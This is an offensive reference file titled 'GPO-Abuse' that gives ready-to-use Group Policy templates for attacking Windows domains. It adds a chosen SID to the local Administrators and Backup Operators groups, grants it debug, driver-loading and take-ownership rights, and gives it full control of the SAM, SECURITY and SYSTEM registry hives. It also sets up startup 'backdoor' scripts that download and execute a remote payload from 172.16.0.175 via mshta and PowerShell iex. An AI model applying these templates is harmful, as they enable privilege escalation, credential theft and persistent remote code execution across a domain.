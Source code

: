 # GPO-Abuse

# Restricted Groups
Add a principal to a local computer group.

## File Path
`\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

## File Template
```text
[Unicode]
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Group Membership]
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *S-1-5-21-1078383433-4142403703-1311514137-1105
*S-1-5-32-551__Memberof =
*S-1-5-32-551__Members = *S-1-5-21-1078383433-4142403703-1311514137-1105
```

Where:

- `S-1-5-32-544` is the SID of the Administrators group.
- `S-1-5-32-551` is the SID of the Backup Operators group.
- `S-1-5-21-1078383433-4142403703-1311514137-1105` is the domain SID of the principal to add

# Startup Scripts
Create a startup script which executes on boot.

## File Path
`\Machine\Scripts\Startup\backdoor.bat`

## File Template
`mshta.exe http://172.16.0.175/a`

## File Path
`\Machine\Scripts\Startup\backdoor.ps1`

## File Template
`iex ((new-object net.webclient).downloadstring('http://172.16.0.175/a'))`

# User Rights Assignment
Assign granular rights to a principal outside of group membership.

## File Path
`\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

## File Template
```
[Unicode]
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Privilege Rights]
SeRemoteInteractiveLogonRight = *S-1-5-21-1078383433-4142403703-1311514137-1105
SeTakeOwnershipPrivilege = *S-1-5-21-1078383433-4142403703-1311514137-1105
SeLoadDriverPrivilege = *S-1-5-21-1078383433-4142403703-1311514137-1105
SeDebugPrivilege = *S-1-5-21-1078383433-4142403703-1311514137-1105
```

# Registry Key DACLs
Delegate full control of `HKLM\{SECURITY, SAM, SYSTEM}` to `S-1-5-21-1078383433-4142403703-1311514137-1105` recursively.

## File Path
`\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

## File Template
```
[Unicode]
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Registry Keys]
"MACHINE\SECURITY",0,"D:PAR(A;CI;KR;;;S-1-15-2-1)(A;CI;KA;;;S-1-5-21-1078383433-4142403703-1311514137-1105)(A;CIIO;KA;;;CO)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;BU)"
"MACHINE\SAM",0,"D:PAR(A;CI;KR;;;S-1-15-2-1)(A;CI;KA;;;S-1-5-21-1078383433-4142403703-1311514137-1105)(A;CIIO;KA;;;CO)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;BU)"
"MACHINE\SYSTEM",0,"D:PAR(A;CI;KR;;;S-1-15-2-1)(A;CI;KA;;;S-1-5-21-1078383433-4142403703-1311514137-1105)(A;CIIO;KA;;;CO)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;BU)"
```